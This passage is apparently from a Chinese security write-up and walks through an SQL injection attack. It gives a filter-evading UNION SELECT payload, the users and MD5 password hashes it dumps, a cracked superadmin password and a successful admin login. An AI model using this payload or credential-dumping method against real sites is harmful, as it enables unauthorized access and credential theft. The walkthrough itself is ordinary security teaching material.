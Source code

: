 [![](assets/1701678867-975d39cd7f14261f5e3d1f8817b95590.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203531-9e5877f6-8dea-1.png)

在看内容

```plain
OSI%'/**/union/**/select/**/group_concat(user,0x5c,pasword),2,3/**/from/**/users/**/where/**/'1'/**/like/**/'1
```

得到 user/passwd

```plain
user1\5d41402abc4b2a76b9719d911017c592,
user2\6269c4f71a55b24bad0f0267d9be5508,
user3\0f359740bd1cda994f8b55330c86d845,
test\05a671c66aefea124cc08b76ea6d30bb,
superadmin\2386acb2cf356944177746fc92523983,
test1\05a671c66aefea124cc08b76ea6d30bb,
123\e10adc3949ba59abbe56e057f20f883e
```

进行 MD5 解密一下

```plain
superadmin/Uncrackable
```

重新登录一下

成功进入后台

[![](assets/1701678867-639d0f9aec3d45031e363caa36614fa5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203539-a3658658-8dea-1.png)
